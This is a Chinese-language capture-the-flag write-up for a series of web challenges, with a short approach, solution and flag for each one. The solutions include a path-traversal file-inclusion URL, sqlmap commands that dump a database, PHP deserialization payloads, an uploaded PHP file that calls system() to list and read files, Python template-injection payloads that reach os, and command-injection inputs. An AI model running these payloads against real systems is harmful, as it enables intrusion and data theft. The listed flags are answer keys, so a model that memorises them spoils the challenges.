 # Web

## 进阶

### Training-WWW-Robots

#### [题目描述]:

1. 学习www robots规则

#### [做题思路]:

1. 根据题意尝试访问``/robots.txt``

#### [题解]

1. 访问``robots.txt``页面
2. 访问``/fl0g.php``页面

#### [flag]

1. cyberpeace{2145c26182a49df95ab3dd4945a3875c}

### baby_web

#### [题目描述]:

1. 想想初始页面是哪个

#### [做题思路]:

1. 根据题意尝试``/index.php``或``/``

#### [题解]

1. 初始页面请求头包含flag

#### [flag]

1. flag{very_baby_web}

### warmup

#### [题目描述]:

#### [做题思路]

1. 文件包含

#### [题解]

1. http://111.198.29.45:50507/source.php
2. http://111.198.29.45:50507/?file=hint.php
3. http://111.198.29.45:50507/?file=hint.php?/../../../../../ffffllllaaaagggg

#### [flag]

1. flag{25e7bce6005c4e0c983fb97297ac6e5a}

### NewsCenter

#### [题目描述]:

1. 如题目环境报错，稍等片刻刷新即可

#### [做题思路]:

1. 由于存在输入框，尝试xss和sql注入

#### [题解]

1. 查看数据库：``sqlmap -u "http://111.198.29.45:46880/index.php" --data "search=ss" --dbs ``
2. 查看表内容：``sqlmap -u "http://111.198.29.45:46880/index.php" --data "search=ss" -D news --dump``

#### [flag]

1. QCTF{sq1_inJec7ion_ezzz}

### NaNNaNNaNNaN-Batman

#### [题目描述]:

1. 无

#### [做题思路]:

1. 审计代码和正则表达式

#### [题解]

1. 打开文件发现是js代码，并修改后缀名
2. 审计代码，把eval改成alert，就能拿到源代码，并利用js格式化工具
3. 研究代码正则表达式，构造字符串拿到flag

#### [flag]

1. flag{it's_a_h0le_in_0ne}

### unserialize3

#### [题目描述]

#### [做题思路]

#### [题解]

http://111.198.29.45:58354/?code=O:4:%22xctf%22:2:{s:4:%22flag%22;s:3:%22111%22;}

#### [flag]

1. cyberpeace{cc2d957928a60557adcc5296b9ac462d}

### upload1

#### [题目描述]

#### [做题思路]

1. 绕过js代码验证，直接上传php文件并给出了URL path路径
2. php文件写入命令，查看当前和上级目录文件并读取文件

#### [题解]

1. 新建php文件，写入system("ls ../");system("cat ../flag.php")

#### [flag]

1. cyberpeace{9db7ff4ecdbad06b2eb95d44786368d3}

### Web_python_template_injection

#### [题目描述]

#### [做题思路]

#### [题解]

1. http://xxx/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__["os"].listdir(".")}}
2. http://xxx/{{''.__class__.__mro__[2].__subclasses__()[40]("fl4g").read()}}

#### [flag]

1. ctf{f22b6844-5169-4054-b2a0-d95b9361cb57}

### Web_php_unserialize

#### [题目描述]

#### [题解]

```bash
http://111.198.29.45:52094/?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==
```

#### [flag]

```bash
ctf{b17bd4c7-34c9-4526-8fa8-a0794a197013}
```

### ics-06

#### [题解]

1. 尝试访问index.php, 发现有id
2. 使用Python写个脚本，遍历id

### Cat

#### [题解]

1. url=127.0.0.1|%80
2. 查找ｄatabase数据库
3. url=@/opt/api/database.sqlite3
4. 查找ctf关键字
